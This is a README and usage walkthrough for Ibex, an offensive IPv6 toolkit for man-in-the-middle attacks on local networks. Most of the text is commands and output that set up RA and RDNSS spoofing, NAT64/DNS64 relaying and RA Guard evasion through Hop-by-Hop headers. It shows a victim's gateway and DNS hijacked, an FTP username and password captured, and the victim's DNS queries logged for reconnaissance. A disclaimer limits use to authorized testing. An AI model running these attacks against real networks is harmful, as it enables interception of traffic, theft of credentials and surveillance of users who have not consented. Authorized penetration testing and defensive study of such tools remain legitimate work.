

# Ibex: Pwning IPv6 Networks

Interactive IPv6 toolkit for pentesting IPv6 networks



# What is Ibex?

Ibex - is an interactive IPv6 toolkit for attacking IPv6 networks. It performs attacks using RA Spoofing and RDNSS Spoofing, and also features automatic NAT64/DNS64 configuration and is equipped with auto-tuning and intelligent CLI navigation.
```
Author: Magama Bazarov, <magamabazarov@mailbox.org>
Alias: Caster
Version: 1.0
```

In many modern enterprise networks, IPv6 is enabled by default but overlooked in terms of security. Ibex leverages this blind spot to perform silent, protocol-native MITM attacks using standards-compliant mechanisms such as SLAAC and RDNSS spoofing.

# Disclaimer

Ibex is a security research tool intended **strictly for educational use**, penetration testing, and authorized security assessments. 
It must only be used in environments where you have **explicit and documented permission** to conduct such activities.

Unauthorized use of this software is strictly prohibited and may violate local, national, or international laws. 
The author bears no responsibility or liability for misuse, damage, or legal consequences resulting from the use of this tool. 

By using Ibex, you acknowledge that:
- You are solely responsible for your actions;
- You will use it in a lawful and ethical manner;
- You have obtained proper authorization for all activities performed with this tool.

> WARNING: Even testing on "open" or "unsecured" networks **without permission** is illegal in many jurisdictions.

# Features

- RA Spoofing with custom lifetimes and intervals;
- RDNSS Spoofing (RFC 8106) for DNS injection without DHCPv6;
- Automatic NAT64 & DNS64 deployment using Tayga and BIND9;
- RA Guard evasion via Hop-by-Hop (HBH) fragmentation;
- Traffic sniffing to gather network information (DHCPv6 and NDP);
- Automatic tuning of kernel network settings and routing;
- Killswitch mode for emergency network recovery;
- Support for multiple attack modes: `mitm`, `routeronly`, `dnsinject`;
- Interactive shell for each module with autocompletion;
- DNS64 Relay for redirecting traffic to any server

## Ibex vs [mitm6](https://github.com/dirkjanm/mitm6)

| Feature                      | Ibex                  | mitm6            |
| ---------------------------- | --------------------- | ---------------- |
| Protocol                     | ICMPv6 (RA, SLAAC)    | DHCPv6           |
| DNS Spoofing Method          | RDNSS (RFC 8106)      | DHCPv6 Option 23 |
| Works if DHCPv6 is disabled? | Yes                   | No               |
| NAT64 + DNS64 Support        | Yes                   | No               |
| RA Guard Evasion             | Yes (HBH)             | No               |
| DNS Manipulation             | Relay to any server   | Spoofing         |
| Compatibility                | Windows, Linux, macOS | Windows          |
| RA timings adjustment        | Yes                   | No               |
| Automatic tuning and routing | Yes                   | No               |
| One-shot killswitch          | Yes                   | No               |
| Dependency auto-installer    | Yes                   | No               |

# Architecture Overview

Ibex is built as a modular shell for attacks, in which each functional component represents a separate isolated subsystem. All modules work through interactive command line shells, providing real-time feedback, autocompletion, and strict control over execution.

| Module       | Feature Description                                          |
| ------------ | ------------------------------------------------------------ |
| `spoof`      | Router Advertisement & RDNSS Spoofing engine with support for HBH evasion, mode switching (`mitm`, `dnsinject`, `routeronly`) and DNS injection |
| `nat64`      | Fully automated NAT64 infrastructure using Tayga, with interface detection, route management, and cleanup |
| `dns64`      | DNS64 relay with BIND9 backend, prefix customization, forwarder injection and log capture |
| `sniffing`   | IPv6 traffic sniffer for ICMPv6 and DHCPv6, showing router advertisements, solicitations and much more |
| `tuning`     | Kernel and firewall auto-tuning module, enables forwarding, disables ICMPv6 redirects, applies `ip(6)tables` rules and `sysctl` settings |
| `watcher`    | Network introspection interface: view interfaces, IPs, MACs, MTU, and route tables scoped per interface or globally |
| `killswitch` | Module for emergency shutdown of Ibex, cancels all launched attacks and completed configurations. |
| `deps`       | Auto-installer that checks for and installs APT and pip dependencies |

Each module can be used independently or combined into a chain in specific pentest scenarios. This separation provides:
- better maintainability
- clear status control
- ease of expansion

# Spoofing Modes

Ibex supports several attack modes. I specifically divided them to take into account specific scenarios in penetration testing. To select a mode:

```bash
ibex spoofing> mode list

[*] Available modes:

  mitm         → Full attack: routing + DNS spoofing
  dnsinject    → DNS poisoning only (no routing)
  routeronly   → Default gateway only
  off          → Revert mode
```

Each mode launches a dedicated interactive sub-shell:

- Autocompletion;
- Pre-flight checks (interface, permissions);
- Mode-specific commands and warnings


| Mode         | DNS Spoofing | Traffic Manipulation | Case                                      |
| ------------ | ------------ | -------------------- | ----------------------------------------- |
| `mitm`       | +            | +                    | Full MITM attack (DNS + Gateway Spoofing) |
| `routeronly` | -            | +                    | MITM attack without DNS spoofing          |
| `dnsinject`  | +            | -                    | DNS Spoofing without traffic redirecting  |
| `off`        | -            | -                    | Disable all spoofing operations           |

## Mode Descriptions

- `mitm`: In this mode, the attacker performs a full MITM attack, replacing the gateway and DNS;
- `routeronly`: In this mode, the attacker spoofs only the gateway;
- `dnsinject`: DNS spoofing only, without affecting routing


# Installation

**Ibex** is a Python3-based tool. It runs on any modern Linux distribution with IPv6 support.

## Requirements

- Root privileges (required for packet injection and routing);
- Python `>=3.11`;
- `iptables`, `ip6tables`, `tayga`, `iproute2`, `net-tools`, `bind9`;

## Installation

```bash
# Clone the repository

git clone https://github.com/caster0x00/Ibex.git
cd Ibex

# Install Python package
sudo python3 setup.py install

# Launch Ibex
sudo ibex 
```

## Dependencies

Ibex includes a built-in module for checking and installing all dependencies:

```bash
ibex> deps

[*] Checking dependencies...
[✓] tayga
[✓] bind9
[✓] iproute2
[✓] iptables
[✓] net-tools
[✓] python3-colorama
[✓] python3-netifaces
[✓] python3-psutil
[✓] python3-scapy

[*] Dependency check complete.

ibex> 
```

This will:

- Check for all required system packages;
- Install missing ones silently via `apt`;
- Print status for each component

> Note: Internet connection is required for automatic installation

# Usage

Ibex has an interactive shell for launching attacks. To run it:

```bash
sudo ibex
```

This will launch the interactive shell:

```bash
      _____ _               
     |_   _| |              
       | | | |__   _____  __
       | | | '_ \ / _ \ \/ /
      _| |_| |_) |  __/>  < 
     |_____|_.__/ \___/_/\_\
    
    Ibex: Pwning IPv6 Networks
    Author: Magama Bazarov, <magamabazarov@mailbox.org>
    Alias: Caster
    Version: 1.0
    Documentation & Usage: https://github.com/caster0x00/Ibex

    ❝The snake which cannot cast its skin has to die❞
    — Friedrich Nietzsche, 1883

ibex>
```

## Example: Full MITM attack with DNS spoofing

This is a step-by-step case of performing full IPv6 MITM with:

- Hop-by-Hop evasion;
- RDNSS spoofing;
- NAT64/DNS64 relay;
- System tuning and passive traffic watcher

## Step I: Watcher Module

```bash
ibex watcher> help

Available watching commands:

  list                      Show all interfaces (summary)
  show <iface>              Interface info (no routes)
  routes [iface]            Routing table (global or per interface)
  full                      Summary + global routes
  clear                     Clear the screen
  exit                      Return to Ibex main shell
```

```bash
ibex watcher> list
[*] Available interfaces:

lo        UP      00:00:00:00:00:00   <MTU: 65536>
eth0      UP      00:0c:29:3b:ac:5f   <MTU: 1500>

ibex watcher> show eth0
[*] Interface: eth0
    MAC:       00:0c:29:3b:ac:5f
    Status:    UP
    MTU:       1500
    IPv4     192.168.0.20
    IPv6     fe80::20c:29ff:fe3b:ac5f
    
ibex watcher> routes eth0
[*] Routing table for eth0:

[+] IPv4:
default via 192.168.0.254 proto dhcp src 192.168.0.20 metric 100 
192.168.0.0/24 proto kernel scope link src 192.168.0.20 metric 100 

[+] IPv6:
fe80::/64 proto kernel metric 1024 pref medium
```

A useful module indeed, you can find out the status of interfaces and addressing directly from the shell.

## Step II: System tuning and preparation for MITM

The `tuning` module prepares the system for stable and stealthy MITM operation.
It applies kernel tweaks and firewall rules to:

- Enable packet forwarding;
- Disable ICMPv6 redirects;
- Harden TCP stack;
- Increase performance (backlog, TIME_WAIT reuse);
- Enable promiscuous mode;
- Set up basic `ip6tables` rules for forwarding and NAT.

> NOTE: All sysctl values are snapshotted and can be restored with `stop`
> The snapshot file will be located here: `/tmp/ibex_tuning_snapshot.json `

```bash
ibex> tuning
[*] Auto-detected interface: eth0
ibex tuning> start
[*] Applying tuning to eth0...

[+] Enable promiscuous mode
[+] Disable RA
[+] Disable ICMPv6 Redirects
[+] Drop ICMPv6 Redirect IN
[+] Drop ICMPv6 Redirect OUT
[+] Raise open files limit
[+] Increase backlog
[+] Increase packet queue
[+] Reduce TCP FIN timeout
[+] Enable TCP TIME-WAIT reuse
[+] Raise TIME-WAIT buckets
[+] Enable window scaling
[+] Enable IPv4 forwarding
[+] Enable IPv6 forwarding
[+] Allow FORWARD ip6tables
[+] Enable NAT MASQUERADE

[*] Tuning applied

ibex tuning>
```

You can use the `show` command to view help information about the tuning status:

```bash
ibex tuning> show

[*] Current tuning status for interface: eth0

✓ IPv6 forwarding             → 1
✓ RA acceptance               → 0
✓ ICMPv6 redirects            → 0
✓ Promiscuous mode            → ON
✓ ip6tables FORWARD rule      → Present
✓ ip6tables MASQUERADE        → Present
```

## Step III: NAT64 Setup

The `nat64` module configures a NAT64 gateway using Tayga, allowing IPv6-only hosts to communicate with IPv4 infrastructure.

This module:

- Writes Tayga config;
- Creates a `nat64` interface;
- Assigns both IPv6 and IPv4 addresses;
- Adds routes and iptables rules;
- Starts Tayga as a background process;
- Enables translation between IPv6/IPv4.

This is essential when performing MITM in dual-stack or IPv6-preferred environments with legacy services on IPv4.

To initialize NAT64:

```bash
ibex> nat64
[*] Interface auto-detected: eth0
ibex nat64> start

[*] Launching test ping via NAT64...
[*] NAT64 working

ibex nat64> 
```

> ```
> 1	0.000000000	fe80::20c:29ff:fe3b:ac5f	ff02::16	170	ICMPv6	Multicast Listener Report Message v2
> 2	0.000879749	192.168.0.20	8.8.8.8	98	ICMP	Echo (ping) request  id=0x0003, seq=1/256, ttl=62 (reply in 3)
> 3	0.097957049	8.8.8.8	192.168.0.20	98	ICMP	Echo (ping) reply    id=0x0003, seq=1/256, ttl=118 (request in 2)
> ```
>
> This is exactly the kind of ping test that Ibex performs for NAT64 operation. A test ping is performed to verify translation `2001:db8:1:FFFF::8.8.8.8`

You can also use show to display a brief summary of the current NAT64 configuration. It is already enabled by default in Ibex, but you can configure it as you see fit.

```bash
ibex nat64> show

[*] Current NAT64 Configuration:

  ✓ interface       → eth0
  ✓ prefix          → 2001:db8:1:FFFF::/96
  ✓ ipv6_host       → 2001:db8:1::2
  ✓ ipv6_nat64      → 2001:db8:1::3
  ✓ ipv4_nat64      → 192.168.255.1
  ✓ dynamic_pool    → 192.168.255.0/24
  ✓ tayga_conf      → /etc/tayga.conf
  ✓ ipv6_assigned   → True
  
ibex nat64> set 
dynamic_pool  interface     ipv4_nat64    ipv6_host     ipv6_nat64    prefix        
ibex nat64> set
```

## Step IV: DNS64 Setup

The `dns64` module configures a DNS64 service using BIND9 (`named`), enabling IPv6-only clients to resolve IPv4 domains by synthesizing `AAAA` records from `A` records.

Key features:

- DNS64 prefix injection (`dns64` block);
- Optional upstream resolver support (forwarder);
- Passive logging of all intercepted DNS queries;
- Automatic patching of `/etc/resolv.conf`;
- Clean and safe shutdown.

To begin, start the service:

```bash
ibex dns64> show

[*] Current DNS64 Configuration:

  prefix:      2001:db8:1:FFFF::/96
  forwarder:   None
  log file:    /var/log/ibex/captured_hosts_20250728_145508.log

ibex dns64> set forwarder 8.8.8.8
[*] forwarder set to 8.8.8.8
ibex dns64> start
[*] BIND9 config written to /var/lib/ibex/dns64/named.conf
[*] nameserver ::1 added to /etc/resolv.conf
[*] Starting BIND9 with DNS64 support...
[+] named started with PID 4530
ibex dns64> 
```

> Specify the address of the DNS server you need as the upstream (forwarder). If you are conducting a penetration test of corporate infrastructure, be especially careful that DNS queries to internal resources are not broken.

This will:

- Generate `named.conf`;
- Launch `named` bound to `::1`;
- Patch `/etc/resolv.conf` with `nameserver ::1`.

DNS queries will be logged to a timestamped file:

```
/var/log/ibex/captured_hosts_<timestamp>.log
```

To stop and clean up:

```bash
ibex dns64> stop
```

This will kill `named`, restore the original `resolv.conf`, and wipe all temporary state.

## Step V: RA Guard Evasion (HBH Injection)

Some networks use RA Guard to protect against attacks related to RA packet spoofing (Type 134)
Ibex includes an evasion technique based on IPv6 Extension Headers, particularly the Hop-by-Hop (HBH) header.

When using HBH headers, some switches or IDS devices cannot verify or pass RA, which results in evading RA Guard controls.

> NOTE: This technique is known to be effective against certain configurations, especially older switches or improperly hardened networks.

**How it works**

When enabled, Ibex prepends each RA packet with a Hop-by-Hop header containing a payload string (inspired by Deftones - My Own Summer):

`hbh_payload = "I think God is moving its tongue. There's no crowds in the street and no sun. In my own summer"`

This payload is inserted as `Pad1/PadN` options to form a valid HBH structure that disrupts basic filtering.

**Enabling HBH Evasion**

```bash
ibex> spoofing
[✓] NAT64 (tayga) is running.
[✓] DNS64 (named) is running.
ibex spoofing> status hbh

[*] Hop-by-Hop status:

  Enabled:  No
ibex spoofing> enable hbh
[!] Hop-by-Hop header enabled
ibex spoofing> status hbh

[*] Hop-by-Hop status:

  Enabled:  Yes
ibex spoofing> 
```

> By default, HBH is not used.

You can now launch any spoofing mode (e.g. `mitm`, `routeronly`, etc.), and your packets will include the HBH extension header.
To disable:

```
ibex spoofing> disable hbh
```

## Step VI: Launching a MITM attack

Ibex supports flexible spoofing modes through a special shell.
After installing dependencies and launching NAT64/DNS64, you can launch a man-in-the-middle attack with just a few commands.
Let’s walk through a full attack scenario using the `mitm` mode.

**Enter the spoofing module**

```bash
ibex> spoofing
[✓] NAT64 (tayga) is running.
[✓] DNS64 (named) is running.
ibex spoofing> 
```

**List available modes**

```
ibex spoofing> mode list

[*] Available modes:

  mitm         → Full attack: route + DNS spoofing
  dnsinject    → DNS poisoning only (no routing)
  routeronly   → Default gateway only
  off          → Revert mode
```

**Enter the MITM mode shell**

```bash
ibex spoofing> mode mitm
```

You’ll see:

```bash
[*] Mode set to mitm
[*] Applied:
    - lifetime: 300
    - dns_lifetime: 300
    - prefix: 2001:db8:1::
    - interval: 2
    [!] You are now the default gateway.
    [!] All IPv6 traffic will flow through you.
    [!] You are also the DNS server for all clients.
```

This will drop you into the interactive subshell:

```
ibex spoofing mitm>
```

**Set required parameters**

Ibex supports autofill once you specify the interface, it will detect the MAC and link-local address automatically:

```bash
ibex spoofing mitm> set interface eth0
[*] Autofilled MAC:  00:0c:29:3b:ac:5f
[*] Autofilled LLIP: fe80::20c:29ff:fe3b:ac5f
```

Now set spoofed DNS servers (multiple addresses are supported):

```
ibex spoofing mitm> set dns 2001:db8:1::2
```

> Optional: If you want to override the advertised prefix:
>
> ```bash
> ibex spoofing mitm> set prefix 2001:db8:bad:: 
> ```

**⚠️ IMPORTANT: Set lifetimes manually**

You **must** define the lifetimes explicitly before starting the attack especially in MITM attacks.
This is crucial for staying stealthy and minimizing impact on the network. Spoofing forever is dangerous.

```bash
ibex spoofing mitm> set lifetime 120
ibex spoofing mitm> set dnslifetime 120
```

 **Launch the attack**

```bash
ibex spoofing mitm> start
```

Ibex will begin broadcasting forged RA packets with your DNS and prefix:

```
6	6.143826653	fe80::20c:29ff:fe3b:ac5f	ff02::1	238	ICMPv6	Router Advertisement from 00:0c:29:3b:ac:5f
```

**Monitor and stop**

```bash
ibex spoofing mitm> show

[*] Current config (mitm):

  interface: eth0
  mac: 00:0c:29:3b:ac:5f
  llip: fe80::20c:29ff:fe3b:ac5f
  prefix: 2001:db8:1::
  dns: ['2001:db8:1::2']
  lifetime: 300
  dns_lifetime: 300
  interval: 2
  packet_count: 4
```

You can also monitor the status of other modes:

```bash
ibex spoofing> status

[*] Active attack status:

  [mitm]
    Running:   Yes
    Interface: eth0
    Prefix:    2001:db8:1::
    Packets:   140
    DNS:       2001:db8:1::2

  [dnsinject]
    Running:   No
    Interface: None
    Prefix:    2001:db8:1::
    Packets:   0
    DNS:       None

  [routeronly]
    Running:   No
    Interface: None
    Prefix:    2001:db8:1::
    Packets:   0
    DNS:       None
```

## Step VII: Impact

After the spoofing attack (RA + RDNSS), the Windows target system immediately:

- Accepted the attacker as its **default gateway**;
- The DNS server address specified by the attacker (RDNSS) was spoofed (`2001:db8:1::2`);
- Queried an AAAA record and received a spoofed IPv6 address;
- Sent ICMPv6 Echo Requests through the attacker;
- The attack was fully transparent

### ipconfig (on the victim)

```
C:\Users\caster.CASTER>ipconfig

IPv6 Address. . . . . . . . . . . : 2001:db8:1:0:f831:58f3:1d1c:6bcc(Preferred)
Temporary IPv6 Address. . . . . . : 2001:db8:1:0:a80e:aa1a:1dbf:1e8f(Preferred)
Link-local IPv6 Address . . . . . : fe80::c56f:274d:abd7:3e2f%2(Preferred)
Default Gateway . . . . . . . . . : fe80::20c:29ff:fe3b:ac5f%2
DNS Servers . . . . . . . . . . . : 2001:db8:1::2
```

### Traceroute

```
C:\Users\caster.CASTER>tracert f1.com

Tracing route to f1.com [2001:db8:1:ffff::43c7:f80c]
over a maximum of 30 hops:

  1    <1 ms    <1 ms    <1 ms  2001:db8:1::2
  ````

> The attacker issued a fake AAAA record pointing to a synthesized address via NAT64. All traffic is routed through the attacker's IPv6 router.

### Full ping roundtrip

```
C:\Users\caster.CASTER>ping -n 3 f1.com

Pinging f1.com [2001:db8:1:ffff::43c7:f80c] with 32 bytes of data:
Reply from 2001:db8:1:ffff::43c7:f80c: time=92ms
Reply from 2001:db8:1:ffff::43c7:f80c: time=93ms
Reply from 2001:db8:1:ffff::43c7:f80c: time=92ms

Ping statistics for 2001:db8:1:ffff::43c7:f80c:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 92ms, Maximum = 93ms, Average = 92ms
```

### FTP Session Interception

Here's an excerpt from a captured **FTP login session** via `test.rebex.net`, routed through Ibex:

```
7	0.217915893	194.108.117.16	192.168.255.237	211	FTP	Response: 220-Welcome to test.rebex.net!
8	0.217963934	2001:db8:1:ffff::c26c:7510	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	231	FTP	Response: 220-Welcome to test.rebex.net!
9	0.244772181	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	2001:db8:1:ffff::c26c:7510	74	FTP	Request: OPTS UTF8 ON
10	0.244848710	192.168.255.237	194.108.117.16	54	FTP	Request: OPTS UTF8 ON
11	0.355469944	194.108.117.16	192.168.255.237	69	FTP	Response: 200 Enabled UTF-8 encoding.
12	0.355531229	2001:db8:1:ffff::c26c:7510	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	89	FTP	Response: 200 Enabled UTF-8 encoding.
15	1.087299540	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	2001:db8:1:ffff::c26c:7510	71	FTP	Request: USER demo
16	1.087408441	192.168.255.237	194.108.117.16	51	FTP	Request: USER demo
17	1.196847268	194.108.117.16	192.168.255.237	116	FTP	Response: 331 Anonymous login OK, send your complete email address as your password.
18	1.196915464	2001:db8:1:ffff::c26c:7510	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	136	FTP	Response: 331 Anonymous login OK, send your complete email address as your password.
21	3.255451520	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	2001:db8:1:ffff::c26c:7510	75	FTP	Request: PASS password
22	3.255511578	192.168.255.237	194.108.117.16	55	FTP	Request: PASS password
23	3.366123276	194.108.117.16	192.168.255.237	68	FTP	Response: 230 User 'demo' logged in.
24	3.366171784	2001:db8:1:ffff::c26c:7510	2001:db8:1:0:a80e:aa1a:1dbf:1e8f	88	FTP	Response: 230 User 'demo' logged in.
```

> `test.rebex.net` is a public FTP server and allows you to use it for various tests. [Taken from here](https://www.sftp.net/public-online-ftp-servers)

### Captured DNS Logs

Ibex logs all DNS queries from the victim. The logs are saved in:

```
/var/log/ibex/captured_hosts_<timestamp>.log
```
This file includes every domain name the victim requested, even if the DNS forwarder is set.
It's automatically generated by the DNS64 module via `bind9` logging.

You can inspect it any time:


```bash
cat /var/log/ibex/captured_hosts_20250728_151806.log
```

This gives you real-time insight into the target's activity, domain resolution attempts, and visited hosts essential for post-exploitation and passive recon.

```bash
grep "f1.com" /var/log/ibex/captured_hosts_20250728_151806.log       
28-Jul-2025 15:28:56.595 client @0x7f69f0431000 2001:db8:1:0:a80e:aa1a:1dbf:1e8f#51638 (f1.com): query: f1.com IN AAAA + (2001:db8:1::2)
```

This is how MITM attacks can be carried out on IPv6 networks. The most important thing here is to control the entire routing process, understand how the network works, and take risks into account. But Ibex automates everything, so I wouldn't say that attacks on IPv6 are now difficult.

## Step VIII: Revert

To safely stop the spoofing attack and restore normal IPv6 network behavior, **Ibex** provides a `stop` command inside the spoofing shell:

```bash
ibex spoofing mitm> stop
[*] mitm attack stopped
```

When you decide to stop MITM, you must explicitly do so with the `stop` command.
The stop command will trigger the sending of an RA packet with `lifetime=0`, which will cause your machine's address as the default gateway on the victim to disappear.

**Why It Matters**

IPv6 clients (especially Windows, Linux, and macOS) respect RFC 4861 and immediately remove gateway and DNS information from their routing table and resolver settings upon receiving RA messages with lifetime 0. This ensures a graceful cleanup of the attack footprint, reducing risk of detection and avoiding long-term disruption.

The RA packet triggered by the `stop` command looks like this:
```
Internet Protocol Version 6, Src: fe80::20c:29ff:fe3b:ac5f, Dst: ff02::1
Internet Control Message Protocol v6
    Type: Router Advertisement (134)
    Code: 0
    Checksum: 0x8c9a [correct]
    [Checksum Status: Good]
    Cur hop limit: 0
    Flags: 0x08, Prf (Default Router Preference): High
    Router lifetime (s): 0
    Reachable time (ms): 0
    Retrans timer (ms): 0
    ICMPv6 Option (Source link-layer address : 00:0c:29:3b:ac:5f)
    ICMPv6 Option (Prefix information : 2001:db8:1::/64)
    ICMPv6 Option (Recursive DNS Server 2001:db8:1::2)
```

> Pay attention to: 
> ```
> Router lifetime (s): 0
> Reachable time (ms): 0
> Retrans timer (ms): 0
> ```


This will stop the MITM attack. 
Also, don't forget to disable NAT64, DNS64, restore your system settings, and delete the rules added by Ibex on the FW.

```bash
ibex> tuning
[*] Auto-detected interface: eth0
ibex tuning> stop
[*] Reverting tuning for eth0...

[+] Restore net.ipv6.conf.all.forwarding
[+] Restore net.ipv4.ip_forward
[+] Restore net.ipv6.conf.all.accept_ra
[+] Restore net.ipv6.conf.all.accept_redirects
[+] Restore fs.file-max
[+] Restore net.core.somaxconn
[+] Restore net.core.netdev_max_backlog
[+] Restore net.ipv4.tcp_fin_timeout
[+] Restore net.ipv4.tcp_tw_reuse
[+] Restore net.ipv4.tcp_max_tw_buckets
[+] Restore net.ipv4.tcp_window_scaling
[+] Snapshot restored and /tmp/ibex_tuning_snapshot.json removed
[+] Disable promiscuous mode
[+] Remove ICMPv6 redirect DROP IN
[+] Remove ICMPv6 redirect DROP OUT
[+] Remove FORWARD rule
[+] Remove MASQUERADE rule
[*] Tuning reverted

ibex tuning> exit
ibex> dns64
ibex dns64> stop
[*] Stopping DNS64 service (named)...
[*] Found named process: PID 5406
[✓] named terminated (PID 5406 from file).
[*] Deleting config: /var/lib/ibex/dns64/named.conf
[*] nameserver ::1 removed from /etc/resolv.conf
[*] Cleaned up DNS64 state (resolv.conf, temp dirs)
[✓] DNS64 stopped.
ibex dns64> exit
ibex> nat64
ibex nat64> stop
[*] Stopping NAT64 infrastructure...
[*] Found tayga process: PID 5397
[*] Removing interface addresses:
    - 2001:db8:1::2/64 from eth0
    - 2001:db8:1::3 from nat64
    - 192.168.255.1 from nat64
[*] Deleting routes:
    - IPv6: 2001:db8:1:FFFF::/96
    - IPv4: 192.168.255.0/24
[*] Removing iptables rules:
    - MASQUERADE for eth0
    - FORWARD nat64 → iface
    - FORWARD iface → nat64 (RELATED,ESTABLISHED)
[*] Bringing down and deleting interface nat64
[*] Killing tayga process...
[*] NAT64 stopped.
ibex nat64> 
```

# Killswitch Mode

If something goes wrong — the shell crashes, you forcefully kill the process, or the system locks up mid-attack — **Ibex** might leave the network in a spoofed, unstable state:
To safely undo everything and clean up the mess, use:

```bash
sudo ibex
```

```
ibex> killswitch

[*] Ibex Killswitch Mode: Stopping attacks and network recovery
---[ RA Spoofing ]---------------------------------
[*] routeronly attack stopped
[✓] RA Spoofing disabled (lifetime set to 0)
---[ System Tuning ]-------------------------------
[*] Auto-detected interface: eth0
[*] Reverting tuning for eth0...

[+] Restore net.ipv6.conf.all.forwarding
[+] Restore net.ipv4.ip_forward
[+] Restore net.ipv6.conf.all.accept_ra
[+] Restore net.ipv6.conf.all.accept_redirects
[+] Restore fs.file-max
[+] Restore net.core.somaxconn
[+] Restore net.core.netdev_max_backlog
[+] Restore net.ipv4.tcp_fin_timeout
[+] Restore net.ipv4.tcp_tw_reuse
[+] Restore net.ipv4.tcp_max_tw_buckets
[+] Restore net.ipv4.tcp_window_scaling
[+] Snapshot restored and /tmp/ibex_tuning_snapshot.json removed
[+] Disable promiscuous mode
[+] Remove ICMPv6 redirect DROP IN
[+] Remove ICMPv6 redirect DROP OUT
[+] Remove FORWARD rule
[+] Remove MASQUERADE rule
[*] Tuning reverted

---[ NAT64 (Tayga) ]-------------------------------
[*] Stopping NAT64 infrastructure...
[*] Found tayga process: PID 6354
[*] Removing interface addresses:
    - 2001:db8:1::2/64 from eth0
    - 2001:db8:1::3 from nat64
    - 192.168.255.1 from nat64
[*] Deleting routes:
    - IPv6: 2001:db8:1:FFFF::/96
    - IPv4: 192.168.255.0/24
[*] Removing iptables rules:
    - MASQUERADE for eth0
    - FORWARD nat64 → iface
    - FORWARD iface → nat64 (RELATED,ESTABLISHED)
[*] Bringing down and deleting interface nat64
[*] Killing tayga process...
[*] NAT64 stopped.
---[ DNS64 (named) ]-------------------------------
[*] Stopping DNS64 service (named)...
[*] Found named process: PID 6361
[✓] named terminated (PID 6361 from file).
[*] Deleting config: /var/lib/ibex/dns64/named.conf
[*] nameserver ::1 removed from /etc/resolv.conf
[*] Cleaned up DNS64 state (resolv.conf, temp dirs)
[✓] DNS64 stopped.
ibex> 
```

# Traffic Sniffing

The sniffing module allows passive observation of ICMPv6 and DHCPv6 traffic. It helps identify active IPv6 hosts, routers, and DHCP servers a critical step before or during a MITM attack.
The sniffer runs in real-time, color-codes packets by type, and logs activity like:

- Router Advertisements (RA) with prefixes and DNS;
- Router Solicitations (RS) from clients;
- Neighbor Solicitations/Advertisements (NS/NA);
- DHCPv6 messages (Solicit, Advertise, Reply, etc.);
- MLD and Echo traffic (optional, for completeness).

This can be used for network reconnaissance, monitoring victims' activity, or validating the success of your spoofing.

## Example Usage

```bash
ibex sniffing> set interface eth0
[*] interface set to eth0
ibex sniffing> set timer 300
[*] timer set to 300
ibex sniffing> start
[*] Sniffing on eth0 for 300 seconds...

[16:46:42] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:46:42] NS: who has ff02::1:ff00:1? asked by :: (MAC 00:aa:bb:cc:dd:01)  
[16:46:42] RS from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → looking for router  
[16:46:42] MLD from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01)  
[16:46:43] MLD from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01)  
[16:46:43] DHCP-Solicit from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → searching for DHCPv6 server  
[16:46:43] NA: fe80::a1b2:c3d4:e5f6:0001 is at 00:aa:bb:cc:dd:01  
[16:46:44] MLD from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01)  
[16:46:46] RS from fe80::a1b2:c3d4:e5f6:0001 (MAC 00:aa:bb:cc:dd:01) → looking for router  
